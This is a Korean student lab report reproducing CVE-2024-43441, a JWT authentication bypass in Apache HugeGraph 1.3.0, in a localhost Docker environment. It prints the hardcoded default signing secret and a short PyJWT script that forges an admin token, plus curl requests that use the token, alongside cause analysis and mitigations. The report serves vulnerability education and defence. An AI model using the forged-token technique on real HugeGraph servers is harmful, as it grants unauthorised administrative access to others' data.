




# Apache HugeGraph JWT 인증 우회 실습 보고서 (CVE-2024-43441)

- 작성자: [35반] 류한솔_0650

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE ID | CVE-2024-43441 |
| 제품명 | Apache HugeGraph Server |
| 실습 버전 | 1.3.0 |
| 공식 영향 범위 | 1.0.0 이상 1.5.0 미만 |
| 취약점 유형 | 고정된 JWT 비밀 키로 인한 인증 우회(CWE-302) |

Apache HugeGraph 1.3.0은 `auth.token_secret`이 설정되지 않은 경우 소스 코드에
하드코딩된 기본값 `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`를 HS256 JWT 서명 키로
사용한다. 이 값은 모든 설치 환경에서 동일하고 외부에 알려져 있으므로, 공격자는
관리자 정보를 포함한 JWT를 직접 만들어 서명할 수 있다.

본 과제는 인증이 활성화된 HugeGraph 1.3.0 환경을 Docker로 구성한 뒤,
알려진 기본 키로 `admin` 사용자의 JWT를 생성하였다. 그 결과 정상 로그인이나 관리자
비밀번호 입력 없이 보호된 API에 접근할 수 있음을 확인하였다.

## 2. 환경 구성

### 2.1 실습 환경

| 항목 | 내용 |
| --- | --- |
| 운영체제 | macOS |
| 하드웨어 | Apple Silicon(arm64) |
| Docker | Docker Desktop 29.3.0 |
| Docker Compose | Compose v2 |
| Python | Python 3.9 이상 |
| 대상 서비스 | Apache HugeGraph Server 1.3.0 |
| API 주소 | `http://localhost:8080` |

외부에서 제작한 취약 이미지를 그대로 사용하지 않고, Dockerfile에서 Apache 공식
Archive의 HugeGraph 1.3.0 바이너리 배포본을 직접 내려받도록 구성하였다. 다운로드한
파일은 공식 SHA-512 값으로 무결성을 검증하였다. Java 베이스 이미지도 버전과
멀티아키텍처 digest를 고정하여 Intel 및 Apple Silicon 환경에서 동일한 Dockerfile을
사용할 수 있도록 하였다.

Compose의 포트는 `127.0.0.1:8080:8080`으로 설정하여 HugeGraph API는
실습 PC 내부에서만 접근할 수 있으며 외부 네트워크에는 공개되지 않는다.

### 2.2 폴더 구조

```text
kr-vulhub에 기여하기-[35반]류한솔_0650/
├── .dockerignore
├── Dockerfile
├── README.md
├── docker-compose.yml
├── docker-entrypoint.sh
├── requirements.txt
├── token.py
└── screenshots/
    ├── 01_docker_up.png
    ├── 02_auth_fail.png
    ├── 03_token_generated.png
    └── 04_auth_bypass.png
```

각 파일의 용도는 다음과 같다.

- `Dockerfile`: Java 환경을 준비하고 HugeGraph 1.3.0을 내려받아 이미지를 생성한다.
- `docker-compose.yml`: 인증 비밀번호, 포트, 빌드 방식 등 컨테이너 실행 조건을 정의한다.
- `docker-entrypoint.sh`: 인증 활성화, 저장소 초기화, HugeGraph 실행을 담당한다.
- `token.py`: 알려진 기본 secret을 이용해 관리자 JWT를 생성한다.
- `requirements.txt`: PoC에 사용한 PyJWT 버전을 고정한다.
- `screenshots/`: 실습 과정과 HTTP 응답 결과를 기록한다.

### 2.3 Docker 환경 실행

프로젝트 디렉터리에서 다음 명령으로 이미지를 빌드하고 컨테이너를 실행하였다.

```bash
docker compose up --build -d
docker compose ps
```

첫 빌드에서는 Apache Archive에서 약 307MB의 HugeGraph 1.3.0 배포본을 다운로드하였다.
빌드 완료 후 `docker compose ps`의 상태가 `healthy`로 표시되는 것을 확인하였다.

필요한 경우 다음 명령으로 초기화 로그를 확인하였다.

```bash
docker compose logs -f hugegraph
```



## 3. 취약 조건

이번 환경에는 다음과 같은 취약 조건을 적용하였다.

1. 취약 버전인 Apache HugeGraph Server 1.3.0을 사용하였다.
2. Compose의 `PASSWORD` 환경 변수와 HugeGraph의 `enable-auth.sh`를 이용해
   `StandardAuthenticator`를 활성화하였다.
3. `rest-server.properties`에 `auth.token_secret`을 별도로 작성하지 않았다.
4. 그 결과 HugeGraph 1.3.0에 하드코딩된 기본 JWT secret이 사용되었다.

HugeGraph 1.3.0의 `auth.token_secret` 옵션에는 `disallowEmpty()` 검사가 적용된다.
따라서 설정값을 빈 문자열로 입력하는 대신 옵션 자체를 작성하지 않는 방식으로 기본값이
선택되도록 구성하였다. 이를 통해 인증 기능은 활성화되어 있지만 JWT secret은 취약한
기본값을 사용하는 상황을 재현하였다.

## 4. 재현 절차

### 4.1 서비스 상태 확인

컨테이너 실행 후 공개 상태 확인 API인 `/versions`에 요청을 전송하였다.

```bash
curl -i http://localhost:8080/versions
```

HugeGraph의 버전 응답을 통해 REST API가 `localhost:8080`에서 정상적으로 실행 중임을
확인하였다. 이후 인증 검증에는 보호된 API인 `/graphs`를 사용하였다.

### 4.2 인증 정보 없이 보호된 API 접근

먼저 `Authorization` 헤더 없이 `/graphs`에 요청하였다.

```bash
curl -i http://localhost:8080/graphs
```

요청 결과 `HTTP/1.1 401 Unauthorized`가 반환되었으며, 응답 본문에서
`Authentication credentials are required` 메시지를 확인하였다. 이를 통해 인증 기능이
비활성화된 것이 아니라, 익명 요청을 정상적으로 차단하고 있음을 확인하였다.



### 4.3 PoC 실행 환경 준비

호스트 Python 환경과 실습용 패키지를 분리하기 위해 가상 환경을 사용하였다.
`token.py`라는 파일명이 Python 표준 라이브러리의 `token` 모듈과 충돌할 수 있으므로,
가상 환경은 프로젝트의 상위 디렉터리에서 생성하였다.

```bash
LAB_DIR="$PWD"
cd ..
python3 -m venv "$LAB_DIR/.venv"
cd "$LAB_DIR"

source .venv/bin/activate
python -m pip install -r requirements.txt
```

`requirements.txt`에는 실습에서 검증한 버전을 다음과 같이 고정하였다.

```text
PyJWT==2.10.1
```

### 4.4 위조 JWT 생성

다음 명령으로 `token.py`를 실행하였다.

```bash
python token.py
TOKEN=$(python token.py)
printf '%s\n' "$TOKEN"
```

스크립트는 `eyJ`로 시작하는 JWT 문자열만 한 줄로 출력하였다. 별도의 설명 문자열을
함께 출력하지 않도록 작성했기 때문에 생성 결과를 셸 변수 `TOKEN`에 바로 저장할 수 있었다.



### 4.5 위조 JWT를 이용한 보호 API 접근

생성한 토큰을 Bearer 인증 헤더에 삽입하여 동일한 `/graphs` API에 다시 요청하였다.

```bash
TOKEN=$(python token.py)
curl -i \
  -H "Authorization: Bearer $TOKEN" \
  http://localhost:8080/graphs
```

정상 로그인 API를 호출하거나 관리자 비밀번호를 입력하지 않았음에도
`HTTP/1.1 200 OK`가 반환되었다. 응답 본문에서는 다음과 같이 `hugegraph` 그래프 목록을
확인할 수 있었다.

```json
{"graphs":["hugegraph"]}
```

인증 정보가 없을 때는 401 응답이 발생했지만, 알려진 기본 secret으로 직접 생성한 JWT를
추가하자 200 응답으로 변경되었다. 이를 통해 CVE-2024-43441의 인증 우회가 재현되었음을
확인하였다.



## 5. PoC 코드 분석

`token.py`에서는 HugeGraph가 사용하는 claim 구조에 맞춰 다음 payload를 구성하였다.

```python
PAYLOAD = {
    "user_name": "admin",
    "user_id": "-30:admin",
    "exp": 4102444800,  # 2100-01-01 00:00:00 UTC
}
```

- `user_name`: 인증 후 사용할 계정 이름을 `admin`으로 지정하였다.
- `user_id`: HugeGraph의 관리자 식별자인 `-30:admin`을 사용하였다.
- `exp`: 실습 중 토큰이 만료되지 않도록 2100년 1월 1일의 epoch 값을 사용하였다.

JWT 생성 부분에서는 공개된 기본 secret과 HS256 알고리즘을 사용하였다.

```python
DEFAULT_SECRET = "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg"

print(jwt.encode(PAYLOAD, DEFAULT_SECRET, algorithm="HS256"))
```

HS256은 토큰을 생성할 때와 검증할 때 동일한 비밀 키를 사용하는 대칭키 서명 방식이다.
공격자가 서버의 secret을 알고 있으면 임의로 만든 payload에도 유효한 서명을 생성할 수 있다.
이번 PoC에서 만든 JWT는 서버가 정상 로그인 과정에서 발급한 토큰이 아니지만, 서명 검증에는
성공하므로 HugeGraph가 이를 `admin` 사용자의 토큰으로 신뢰하였다.

작성한 전체 코드는 [token.py](./token.py)에서 확인할 수 있다.

## 6. 실행 결과

| 구분 | Authorization 헤더 | HTTP 결과 | 확인 내용 |
| --- | --- | --- | --- |
| 정상 차단 | 없음 | `401 Unauthorized` | 익명 사용자의 `/graphs` 접근 차단 |
| 취약점 재현 | 위조한 Bearer JWT | `200 OK` | 비밀번호 없이 `admin` 권한으로 그래프 목록 조회 |

두 요청은 대상 URL과 HTTP 메서드가 동일하며 Bearer JWT의 포함 여부만 다르다. 따라서
200 응답이 단순히 API가 공개되어 발생한 것이 아니라, 조작한 JWT가 서버 인증을 통과하면서
발생한 결과임을 확인할 수 있었다.

정상 차단 결과는 [인증 실패 스크린샷](./screenshots/02_auth_fail.png), 인증 우회 결과는
[인증 우회 스크린샷](./screenshots/04_auth_bypass.png)에 기록하였다.

## 7. 원인 분석

HugeGraph의 인증 필터는 `Authorization` 헤더가 `Bearer`로 시작하면 JWT 문자열을
추출하여 `StandardAuthManager`에 전달한다. 이후 `TokenGenerator`가
`auth.token_secret`을 이용해 HS256 서명을 검증하고, 검증된 payload의 `user_name`으로
실제 사용자와 권한을 조회한다.

문제는 HugeGraph 1.3.0의 `AuthOptions.AUTH_TOKEN_SECRET` 기본값이 설치마다 새로
생성되는 값이 아니라 모든 환경에서 동일한 하드코딩 문자열이라는 점이다. JWT secret은
서버만 알고 있어야 하지만 해당 값은 소스 코드와 문서를 통해 확인할 수 있다.

서버는 토큰의 서명이 자신의 secret으로 생성되었는지를 검사할 뿐, 공격자가 그 secret을
알고 있는지는 구분할 수 없다. 따라서 공격자가 동일한 secret으로 `user_name: admin`
claim을 서명하면 서버 입장에서는 정상 발급 토큰과 암호학적으로 구별할 수 없다.
결과적으로 조작된 JWT가 관리자 권한으로 연결되어 인증 우회가 발생한다.

## 8. 대응 방안

1. Apache HugeGraph를 공식 패치 버전인 **1.5.0 이상**으로 업데이트한다.
2. 즉시 업데이트하기 어려운 경우 `auth.token_secret`을 최소 32바이트 이상의
   예측 불가능한 값으로 직접 설정한다.
3. 기존 기본 secret으로 발급되었거나 서명된 토큰을 모두 폐기한다.
4. 여러 서버나 개발·운영 환경에서 동일한 JWT secret을 공유하지 않는다.
5. secret을 소스 코드, Dockerfile, Compose 파일에 평문으로 커밋하지 않는다.
6. Docker Secret, 환경별 secret manager 또는 접근 권한이 제한된 설정 파일을 사용한다.
7. API를 외부에 직접 공개하지 않고 TLS, 방화벽, IP allowlist, 감사 로그를 함께 적용한다.

과제 지시문에는 1.3.1 이상으로 업데이트하는 내용이 제시되어 있었지만, Apache와
GitHub Advisory의 공식 공지에서는 1.5.0을 패치 버전으로 명시하고 있다. 따라서 실제
대응 시에는 1.3.1을 안전 버전으로 가정하지 않고 1.5.0 이상으로 업데이트해야 한다.

## 9. 정리 및 느낀 점

이번 실습을 통해 인증 기능을 활성화하는 것만으로는 안전한 인증 환경이 완성되지 않는다는
점을 확인하였다. 인증 정보 없이 접근했을 때 401 응답이 반환되었기 때문에 처음에는 서버가
정상적으로 보호되고 있는 것처럼 보였다. 그러나 공개된 기본 secret으로 JWT를 생성해
요청하자 동일한 API가 200 응답을 반환하였다.

JWT의 payload는 누구나 확인할 수 있으며, 서버가 토큰을 신뢰할 수 있는 근거는 서명의
유효성이다. 따라서 서명 키가 공개되거나 모든 설치 환경에서 같은 기본값을 사용하면 JWT
인증 구조 전체가 무력화될 수 있음을 이해하였다.

또한 취약 환경을 Dockerfile에서 직접 구성하면서 이미지 버전 고정, 공식 배포 파일의
체크섬 검증, 로컬 포트 바인딩이 재현성과 안전성에 중요하다는 점을 알게 되었다. 실제
서비스에서는 설치별 무작위 secret 생성, 안전한 키 저장, 주기적인 키 교체가 인증 코드
자체만큼 중요하다고 판단하였다.

## 10. 실습 환경 정리

실습이 끝난 뒤 다음 명령으로 컨테이너와 관련 볼륨을 정리하였다.

```bash
deactivate 2>/dev/null || true
docker compose down -v
```

필요한 경우 다음 명령으로 실습용 이미지도 삭제할 수 있다.

```bash
docker image rm cve-2024-43441-hugegraph:1.3.0-lab
```

## 11. 참고 자료

- [GitHub Advisory: GHSA-f697-gm3h-xrf9](https://github.com/advisories/GHSA-f697-gm3h-xrf9)
- [Apache HugeGraph 보안 공지](https://lists.apache.org/thread/h2607yv32wgcrywov960jpxhvsmmlf12)
- [Apache HugeGraph 수정 커밋](https://github.com/apache/hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246)
- [Apache HugeGraph 1.3.0 공식 Archive](https://archive.apache.org/dist/incubator/hugegraph/1.3.0/)
- [Apache HugeGraph 1.3.0 Release Notes](https://hugegraph.apache.org/docs/changelog/hugegraph-1.3.0-release-notes/)
